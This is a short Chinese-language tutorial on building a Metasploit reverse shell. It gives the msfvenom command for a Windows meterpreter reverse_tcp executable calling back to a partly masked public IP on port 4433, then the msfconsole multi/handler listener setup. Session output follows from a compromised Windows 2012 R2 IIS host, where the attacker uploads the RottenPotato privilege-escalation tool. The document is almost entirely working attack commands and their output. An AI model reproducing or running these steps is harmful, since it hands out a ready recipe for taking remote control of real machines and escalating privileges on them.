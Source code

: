# msf制作shell


#### 1 .制作反弹shell-exe文件

执行命令
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=2x.94.50.153 LPORT=4433 -f exe -o 4433.exe

```
> `LHOST`为公网IP

> `LPORT`为反弹端口

> `4433.exe`为生成文件

##### 2.控制端启动msfconsole，获取监听

运行命令

```
msfconsle
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 2xx.94.50.153
msf5 exploit(multi/handler) > set LPORT 4433
msf5 exploit(multi/handler) > run


```

##### 3.反弹成功

```
meterpreter > sysinfo
Computer        : WIN-UKKED2CCSHJ
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows

meterpreter > getuid
Server username: IIS APPPOOL\padt002

#上传文件
meterpreter > upload /root/RottenPotato/rottenpotato.exe
[*] uploading  : /root/RottenPotato/rottenpotato.exe -> rottenpotato.exe
[*] Uploaded 664.00 KiB of 664.00 KiB (100.0%): /root/RottenPotato/rottenpotato.exe -> rottenpotato.exe
[*] uploaded   : /root/RottenPotato/rottenpotato.exe -> rottenpotato.exe

```

